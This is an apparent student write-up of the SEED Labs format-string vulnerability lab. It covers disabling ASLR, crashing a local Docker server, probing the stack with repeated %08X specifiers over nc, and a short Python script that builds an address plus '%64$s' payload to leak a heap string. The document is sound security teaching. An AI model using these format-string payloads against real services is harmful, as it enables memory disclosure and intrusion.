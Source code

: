 # Format-String Vulnerability Lab

## Environment Setup

To begin our assignment, we need to turn off the address randomization using the following command

```bash
 $ sudo sysctl -w kernel.randomize_va_space=0
 ```

Before opening the terminals, it is important that we compile the program using the *"-z execstack"* option, which allows the stack to be executable.

In the following, we list some of the commonly used commands related to Docker and Compose. Since we are going to use these commands very frequently, we have created aliases for them in the .bashrcfile(in our provided SEEDUbuntu 20.04 VM).

```bash
$ dcbuild # Alias for: docket-compose build
$ dcup # Alias for: docket-compose up
$ dcdown # Alias for: docket-compose down
```

All the containers will be running in the background.  To run commands on a container, we often need to get a shell on that container.  We first need to use the"docker ps"command to find out the ID of the container, and then use "docker exec" to start a shell on that container. We have created aliases forthem in the .bashrcfile.

```bash
$ dockps # Alias for: docker ps --format "{{.ID}}  {{.Names}}"
$ docksh <id>  # // Alias for: docker exec -it <id> /bin/bash
```


# Task 1

Then, we open two terminals, one with the servers, using Docker from Seed-Labs, and another one to communicate with the servers. This allows us to see the exchange of messages between both sides. For example, when we send a string to the server using the command:

```bash
 $ echo 'hello' | nc 10.9.0.5 9090
 ```

We can see the following content appear on the other side:

![Message_setup](../docs/week7/task1_3.png)

From this, we can see some important addresses that we will be using in the following tasks, such as:

The Buffer Input Address;
The Secret Message Address;
The Frame Pointer;
The Target Variable's initial and final values.


To crash our program, firstly we created a file called task1.txt with the following content:

![CrashProg_Code](../docs/week7/task1_code.png)

Then, when we execute the code, our program will read values from the stack that are not valid memory addresses. The message *Returned Properly* did not appear, so we know that our program crashed, as expected.

![Crash_1](../docs/week7/task1.png)

![Crash_2](../docs/week7/task1_2.png)

# Task 2.A

To find out how many %x format specifiers we need to get the server program to print out the first four bytes of our input, we first used "AAAA" as input that we know is "414141" in hexadecimal.

The idea behind this is giving "AAAA" as input and then concatenate with many "%08x.

```bash
$ echo "AAAA%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X%08X" | nc 10.9.0.5 9090
```

In the server, we get the following output:


![Task2A](../docs/week7/task2_a.png)

The final "41414141" is the string input adress. Between "AAAA" AND "41414141" there are 504 characters, and each adress has 8, so 504/8 = 63 adresses in the stack. We can conclude that to print the first 4 bytes of input is necessary 64 "%x".

# Task 2.B

For this task, we need to print the content of a string that is in the Heap in the adress 0x080b4008.

We created an auxiliar python scrip to insert the 64 "%s".

```
import sys

content = (0x080b4008).to_bytes(4,byteorder='little') + ("%64$s").encode('latin-1')

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

We know that by sending a "%s", printf function will read a string from an address. In the previous task, we learned that the number of "%x" needed to get to the beginning of the stack is 64.
By using the auxiliar script, we inserted the string adress followed by 64 "%s", so the format string can read from the adress and return the hidden message.

By executing the auxiliar scrip we get the following outputs:

![Task2B](../docs/logbook7/task2b_1.png)

![Task2B](../docs/logbook7/task2b_2.png)

The secret message is "A secret message".